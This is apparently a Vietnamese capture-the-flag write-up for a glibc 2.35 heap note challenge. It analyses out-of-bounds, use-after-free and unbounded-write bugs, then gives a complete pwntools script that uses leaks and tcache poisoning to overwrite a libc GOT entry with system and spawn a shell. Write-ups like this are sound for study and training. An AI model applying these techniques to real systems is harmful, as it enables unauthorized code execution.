

### 0x01 Overview 

#### First Glance 

Một bài heap note truyền thống phiên bản **Libc 2.35** với đầy đủ các chức năng: `add`, `delete`, `write`, `print`, `save`. Tất cả các lớp bảo vệ cho binary đều được bật lên. 

```shell
➜ ./chall_patched

======= Welcome to "Note Application" =======
1. Add (add a note)
2. Delete (delete a note)
3. Write message (write your message into a note)
4. Print message (get your message from a note)
5. Save (save note into file)
6. Quit

[*] Your choice: 

➜ ./libc.so.6
GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.8) stable release version 2.35.
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 11.4.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.

pwndbg> checksec
File:     /home/ducdatdau/ctfs/2024/ascis_final/pwn-BugBounty/chall_patched
Arch:     amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
RUNPATH:    b'.'
SHSTK:      Enabled
IBT:        Enabled
```

Mã giả hàm `main` được IDA tạo ra có nội dung như sau: 

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int v3; // eax
  FILE *v4; // rbx
  size_t v5; // rax
  char v6; // [rsp+1Fh] [rbp-141h]
  int v7; // [rsp+20h] [rbp-140h]
  int v8; // [rsp+24h] [rbp-13Ch]
  int v9; // [rsp+28h] [rbp-138h]
  int v10; // [rsp+2Ch] [rbp-134h]
  int nbytes; // [rsp+30h] [rbp-130h]
  int v12; // [rsp+38h] [rbp-128h]
  int v13; // [rsp+3Ch] [rbp-124h]
  _QWORD v14[8]; // [rsp+50h] [rbp-110h] BYREF
  void *ptr[17]; // [rsp+90h] [rbp-D0h] BYREF
  char v16[8]; // [rsp+11Ah] [rbp-46h] BYREF
  __int16 v17; // [rsp+122h] [rbp-3Eh]
  char nptr[8]; // [rsp+124h] [rbp-3Ch] BYREF
  int v19; // [rsp+12Ch] [rbp-34h]
  char v20[8]; // [rsp+130h] [rbp-30h] BYREF
  int v21; // [rsp+138h] [rbp-28h]
  char v22[8]; // [rsp+13Ch] [rbp-24h] BYREF
  int v23; // [rsp+144h] [rbp-1Ch]
  unsigned __int64 v24; // [rsp+148h] [rbp-18h]

  v24 = __readfsqword(0x28u);
  sub_1B5D(a1, a2, a3);
  sub_1A81();
  v6 = 0;
  memset(ptr, 0, 0x80u);
  memset(v14, 0, sizeof(v14));
  *(_QWORD *)nptr = 0;
  v19 = 0;
  *(_QWORD *)v20 = 0;
  v21 = 0;
  *(_QWORD *)v22 = 0;
  v23 = 0;
  while ( 1 )
  {
    fflush(stdin);
    if ( v6 != 1 )
    {
      stream = fopen("saved_note.txt", "w+");
      v6 = 1;
    }
    puts(&s);
    printf("[*] Your choice: ");
    __isoc99_scanf("%2s", nptr);
    puts(&s);
    if ( atoi(nptr) == 1 )
    {
      printf("  Index: ");
      __isoc99_scanf("%2s", v20);
      puts(&s);
      v7 = atoi(v20);
      if ( v7 > 15 )
        __assert_fail("iIdex < 16", "challenge.c", 0x38u, "main");
      printf("  Size: ");
      __isoc99_scanf("%10s", v22);
      puts(&s);
      v8 = atoi(v22);
      ptr[v7] = malloc(v8);
      *((_DWORD *)v14 + v7) = v8;
    }
    else if ( atoi(nptr) == 2 )
    {
      printf("  Index: ");
      __isoc99_scanf("%2s", v20);
      puts(&s);
      v9 = atoi(v20);
      if ( v9 > 15 )
        __assert_fail("iIdex < 16", "challenge.c", 0x48u, "main");
      free(ptr[v9]);
    }
    else if ( atoi(nptr) == 3 )
    {
      printf("  Index: ");
      __isoc99_scanf("%2s", v20);
      puts(&s);
      v10 = atoi(v20);
      *(_QWORD *)v16 = 0;
      v17 = 0;
      printf("  Size: ");
      __isoc99_scanf("%10s", v16);
      nbytes = atoi(v16);
      if ( nbytes >= *((_DWORD *)v14 + v10) )
      {
        puts("[!] No more space !!!");
      }
      else
      {
        fflush(stdin);
        if ( (__int64)ptr[v10] >> 32 == (__int64)v22 >> 32 )
        {
          puts("HERETICS !!!");
          exit(0);
        }
        *((_DWORD *)v14 + v10) -= read(0, ptr[v10], (unsigned int)nbytes);
      }
    }
    else if ( atoi(nptr) == 4 )
    {
      printf("  Index: ");
      __isoc99_scanf("%2s", v20);
      puts(&s);
      v3 = atoi(v20);
      v12 = v3;
      if ( v3 > 15 )
        __assert_fail("iIdex < 16", "challenge.c", 0x71u, "main");
      printf("  Data: ");
      puts((const char *)ptr[v12]);
    }
    else if ( atoi(nptr) == 5 )
    {
      printf("  Index: ");
      __isoc99_scanf("%2s", v20);
      puts(&s);
      v13 = atoi(v20);
      if ( v13 > 15 )
        __assert_fail("iIdex < 16", "challenge.c", 0x7Du, "main");
      puts("[*] Saving the note...");
      v4 = stream;
      v5 = strlen((const char *)ptr[v13]);
      fwrite(ptr[v13], 1u, v5 - 1, v4);
    }
    else
    {
      if ( atoi(nptr) == 6 )
      {
        if ( v6 )
          fclose(stream);
        exit(0);
      }
      puts("[!] You sure that is a command ??");
      puts(&s);
    }
  }
}
```

#### Clean code

Dựa vào dòng code 

```c
__assert_fail("iIdex < 16", "challenge.c", 0x38u, "main");
```

ta có thể xác định được danh sách sẽ có tối đa 16 notes. Mình đã rename và chỉnh lại size trên stack như sau: 




- `ptr` &rarr; `list_notes`
- `v14` &rarr; `list_notes_size`. Tạo kiểu `int` cho `list_notes_size` (x3 phím `d`), delete member (phím `u`) toàn bộ mảng từ [-0x108, -0xd8], tạo array (`Shift` + `*`).



### 0x02 Finding the vulnerability 

Có tổng cộng 3 bug được tìm thấy trong chương trình: 

#### Bug #1: Out Of Bound 

Tất cả các chức năng đều có bug này. Chương trình chỉ kiểm tra cận trên `idx > 15` nhưng không kiểm cận dưới dẫn tới bug OOB. Do chương trình cho phép nhập 2 byte vào `idx`, vì vậy khoảng giá trị có thể truy cập được thay vì [0, 15] thì sẽ là **[-9, 15]**. 

```c
printf("  Index: ");
scanf("%2s", idx_buf);
puts(&s);
idx_add = atoi(idx_buf);                  // BUG: Out Of Bound -> idx = [-9, 15]
if ( idx_add > 15 )
  __assert_fail("iIdex < 16", "challenge.c", 0x38u, "main");
```

#### Bug #2: Use After Free 

Ở chức năng `delete`, sau khi free đã không gán NULL cho con trỏ vừa được giải phóng dẫn tới bug UAF. 

#### Bug #3: Unlimited Size 

Ở chức năng `write`, biến `new_size` có kiểu `int` nhưng khi gọi hàm `read()` lại bị ép kiểu về `unsigned int` dẫn tới việc có thể ghi một lượng dữ liệu với kích thước không giới hạn. 



### 0x03 Building the payload

Sau khi nắm rõ được toàn bộ lỗ hổng của chương trình, kế hoạch khai thác của mình như sau: 
1. Dùng bug UAF để leak địa chỉ Libc. 
2. Dùng bug UAF để leak địa chỉ Heap. 
3. Tcache Poisoning để overwrite `ABS@got` thành `system`. 
4. Dùng chức năng `write` cho poisoned chunk, khi này `puts(note_data)` sẽ gọi `system("/bin/sh")`.  


Mặc dù lớp bảo vệ RELRO binary là **Full RELRO** nhưng trong Libc sẽ là **Partial RELRO**, vì vậy ta có thể overwrite nhiều con trỏ hàm trong Libc. Bên cạnh đó,`*ABS*@got` được gọi trong hàm `puts()`, do hàm này chỉ yêu cầu 1 tham số nên sẽ rất thuận tiện cho việc ghi đè thành `system("/bin/sh")`. 


#### Leaking Libc address 

Lần lượt tạo 2 chunk: ${chunk}_0$ có size `0x420` để khi free sẽ vào Unsorted Bin, ${chunk}_1$ có size `0x40` để làm separator nhằm tránh hiện tượng gộp chunk. Delete ${chunk}_0$ &rarr; view ${chunk}_0$ &rarr; Leak Libc. 

```python
add(0, 0x420) 
add(1, 0x40) 

delete(0)

leaked_libc_addr = u64(view(0).ljust(8, b'\x00'))
libc.address = leaked_libc_addr - 0x21ace0
log.success(f'Leaked libc address: {hex(leaked_libc_addr)}')
log.success(f'Libc base address: {hex(libc.address)}')
```

Địa chỉ leak được là `0x155555503ce0`, địa chỉ Libc Base ở chế độ NOASLR là `0x1555552e9000`\
&rarr; offset = 0x155555503ce0 - 0x1555552e9000 = 0x21ace0. 

#### Leaking Heap address 

Mục đích của việc leak heap là để thực hiện Tcache Poinsoning. Vì vậy, ta sẽ tạo liên tiếp 2 ${chunk}_{2,3}$ có size `0x40`, rồi free ${chunk}_3$ trước, sau đó mới đến ${chunk}_2$. 

```python
add(0, 0x420) 
add(1, 0x40) 
add(2, 0x40) 
add(3, 0x40)

leaked_heap_addr = u64(view(3).ljust(8, b'\x00'))
heap_base = leaked_heap_addr << 12
log.success(f'Leaked heap address: {hex(heap_base)}')
```

Do ${chunk}_3$ được `free` đầu tiên, con trỏ `fd` của chunk đó sẽ được tính theo công thức: 

$${fd}_3 = 0 \oplus ({addr}_3 \gg 12)$$

với ${addr}_3$ là địa chỉ của ${chunk}_3$. Vậy để tính được giá trị ${addr}_3$, ta sẽ dịch trái 12 bit `<< 12`. 

#### Overwrite GOT

Giả sử ${chunk}_{2,3}$ đều đã được free (${chunk}_3$ free trước). Nếu ta viết vào ${chunk}_2$ có địa chỉ `addr_2` với dữ liệu `0xdeadbeef`. Payload sẽ như sau: 

```python
addr_2 = heap_base + 0x900 
write(2, 0x10, p64(0xdeadbeef))
```



Vậy nếu ta muốn viết vào địa chỉ `target_addr` với dữ liệu `target_value` thì phải làm như nào?

Công thức payload sẽ là: 

```python
write(2, 0x10, p64(((addr_2 >> 12) ^ target_addr)))

add(2, 0x40) 
add(3, 0x40) 

write(3, 0x30, p64(target_value))
```

Giải thích: 

Do ${chunk}_2$ được free sau ${chunk}_3$, con trỏ `fd` của ${chunk}_2$ sẽ trỏ tới ${chunk}_3$ và được tính bởi công thức: 

$$ {fd}_2 = {addr}_3 \oplus ({addr}_2 \gg 12) $$

Nếu thay ${addr}_3$ = `target_addr`, ta sẽ có giá trị ${fd}_2$ mới. Ghi đè `fd` của ${chunk}_2$ bằng giá trị mới này, ta đã làm cho ${chunk}_2$ trỏ tới `target_addr`.

Lần malloc đầu tiên, chương trình sẽ trả về ${addr}_2$ vì nó đang là con trỏ đầu danh sách. Tiếp tục malloc, chúng ta sẽ nhận được con trỏ mới có giá trị là `target_addr` do con trỏ ${fd}_2$ đã bị chúng ta thao túng trước đó. 

Cuối cùng chỉ cần viết `target_value` vào ${chunk}_3$ sẽ hoàn thành mục tiêu đề ra. 

---

Quay lại bài toán, mục tiêu của chúng ta sẽ là: `target_addr` = `ABS@got`, `target_value` = `system_addr`. 

```python
addr_2 = heap_base + 0x900 
target_addr = libc.address + 0x21a070 # <*ABS*@got.plt> 
log.info(f"target_addr: {hex(target_addr)}")
write(2, 0x10, p64(((addr_2 >> 12) ^ target_addr)))

add(2, 0x40) 
add(3, 0x40) 

write(3, 0x30, b'/bin/sh\x00'.ljust(0x28, b'\x00') + p64(libc.symbols['system']))

p.sendlineafter(b'choice: ', b'4')
p.sendlineafter(b'Index: ', b'3')
```


Đây là offset so với Libc, do địa chỉ phải chia hết cho 16, vì vậy có thể linh hoạt chọn lựa offset theo dạng **0x21a070 - (0x10 * k)**. 


Kết quả sau 2 lần malloc, chương trình đã trả về cho ta địa chỉ `target_addr`. 



Rõ thấy dữ liệu được ghi từ địa chỉ `target_addr - 0x30`. Vì vậy ta sẽ ghi chuỗi `/bin/sh\x00` và các padding byte cho tới khi ghi được `target_value` vào `target_addr`. 

### 0x04 Final script 

Sau ghi đã overwrite bảng GOT, gọi chức năng 4 - Print Message của `note[3]` để lấy shell. 

```python
#!/usr/bin/env python3

from pwn import *
import time

exe = ELF('./chall_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
ld = ELF('./ld-linux-x86-64.so.2', checksec=False)

# context.update(arch='amd64', os='linux', log_level='debug', terminal='cmd.exe /c start wsl'.split(), binary=exe)
context.update(arch='amd64', os='linux', log_level='debug', terminal=['wt.exe', '-p', 'uterm', '--', 'wsl.exe', '-e'], binary=exe)

p = process(exe.path)
# p = remote('HOST', PORT)

def GDB():
    gdb.attach(p, gdbscript='''
        # malloc
        break *0x00005555555555EE
        # free 
        break *0x00005555555556CA
        break *0x000055555555583F
        continue
    ''')

    pause()

# Good Luck Pwning ^^

def add(index, size): 
    p.sendlineafter(b'choice: ', b'1')
    p.sendlineafter(b'Index: ', str(index).encode())
    p.sendlineafter(b'Size: ', str(size).encode())

def delete(index):
    p.sendlineafter(b'choice: ', b'2')
    p.sendlineafter(b'Index: ', str(index).encode())

def write(index, size, content): 
    p.sendlineafter(b'choice: ', b'3')
    p.sendlineafter(b'Index: ', str(index).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.send(content)

def view(index):
    p.sendlineafter(b'choice: ', b'4')
    p.sendlineafter(b'Index: ', str(index).encode())
    p.recvuntil(b'Data: ')
    return p.recvline().strip()

# STAGE 1: LEAK LIBC 
add(0, 0x420) 
add(1, 0x40) 
add(2, 0x40) 
add(3, 0x40) 

delete(0)

leaked_libc_addr = u64(view(0).ljust(8, b'\x00'))
libc.address = leaked_libc_addr - 0x21ace0
log.success(f'Leaked libc address: {hex(leaked_libc_addr)}')
log.success(f'Libc base address: {hex(libc.address)}')

# Tcache poisoning libc 2.35 -> LEAK HEAP 
delete(3) 
delete(2) 

leaked_heap_addr = u64(view(3).ljust(8, b'\x00'))
heap_base = leaked_heap_addr << 12
log.success(f'Leaked heap address: {hex(heap_base)}')

addr_2 = heap_base + 0x900 
target_addr = libc.address + 0x21a070 # <*ABS*@got.plt> 
log.info(f"target_addr: {hex(target_addr)}")
write(2, 0x10, p64(((addr_2 >> 12) ^ target_addr)))

# GDB()

add(2, 0x40) 
add(3, 0x40) 

write(3, 0x30, b'/bin/sh\x00'.ljust(0x28, b'\x00') + p64(libc.symbols['system']))

p.sendlineafter(b'choice: ', b'4')
p.sendlineafter(b'Index: ', b'3')

p.interactive()
```
